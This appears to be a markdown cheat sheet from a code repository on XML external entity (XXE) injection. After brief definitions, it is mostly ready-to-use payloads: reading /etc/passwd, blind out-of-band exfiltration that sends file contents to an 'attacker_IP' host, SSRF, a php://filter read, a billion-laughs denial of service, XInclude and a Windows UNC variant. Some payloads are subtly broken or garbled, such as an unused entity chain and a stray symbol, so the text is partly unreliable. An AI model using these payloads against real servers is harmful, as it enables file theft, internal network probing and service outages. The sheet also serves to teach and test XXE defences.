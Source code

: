 # XXE

XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application’s processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any backend or external systems that the application itself can access.

**Internal Entity**: If an entity is declared within a DTD it is called as internal entity.
Syntax: <!ENTITY entity_name "entity_value">

**External Entity**: If an entity is declared outside a DTD it is called as external entity. Identified by SYSTEM.
Syntax: <!ENTITY entity_name SYSTEM "entity_value">

# XXE Attacks:

- **Retrieve Files**
- **SSRF Attacks**
- **Exfiltrate Data Out-of-Band**
- **Denial Of Service**

 

**Local file Inclusion :**
In this technique, the Web application will accept the input from the user (as below payloads), parse it, And respond back with the local file.

```
<?xml version="1.0"?><!DOCTYPE foo [ <!ELEMENT foo (#ANY)><!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>
```

```
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
```

 

**Blind Local File Inclusion :**
In some cases and based on the web application logic, It might not respond with message back to user like in **login forms**, When user submits user_name and password, The server responds with True or False. 
So attacker needs to send the file from server-side (SSRF)

```
<?xml version="1.0"?><!DOCTYPE foo [ <!ENTITY % p1 SYSTEM "file:///etc/passwd"> <!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://attacker_IP:port/BLAH?%p1;'>"> ]> 
```

This payload will read file /etc/passwd and trying to open the attacker web site http://attacker_IP:port/BLAH?%p1; replacing **p1** with the file content, on the attacker side he can read the content back.

 

**Access Control Bypass**
In other cases, Attacker need to read files within the app that he is not authorized to access like admin pages.

```
<?xml version="1.0"?> <!DOCTYPE foo [ <!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=http://example.com/viewlog.php">]> <foo><result>∾</result></foo>
```

 

**Server-Side Request Forgery (SSRF)**
When the attacker injects payload which makes requests from the server back-end on behalf of victim web app.

```
<?xml version="1.0"?> <!DOCTYPE foo [  <!ELEMENT foo (#ANY)> <!ENTITY xxe SYSTEM "https://www.example.com/text.txt">]><foo>&xxe;</foo>
```

 

**Denial Of Service (XML Entity Expansion)**
When an XML parser loads this document, it will try to resolve the lol9 entity. At first, lol9 expands to seven lol8 entities, each lol8 expands to ten lol7 entities, and so on. As a result, we get  around 1 billion “***lol***” strings. Which consumes resources.

```
<!--?xml version="1.0" ?--> <!DOCTYPE lolz [<!ENTITY lol "lol"> <!ELEMENT lolz (#PCDATA)> <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;"> <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;"> <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;"> <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;"> <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;"> <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;"> <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;"> <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;"> <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;"> <tag>&lol9;</tag>
```

 

**XInclude attacks:**
Some applications will receive client-submitted data, embed it on the server-side into an XML document, and then parse the document. When a server takes arbitrary input and does something with it. An example of this occurs when client-submitted data is placed into a backend SOAP request, which is then processed by the backend SOAP service.
*The attacker in this scenario doesn’t have control over the full XML document.*

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>
```

 

**XXE on Windows**

```
<!ENTITY xxe SYSTEM "\\127.0.0.1">
```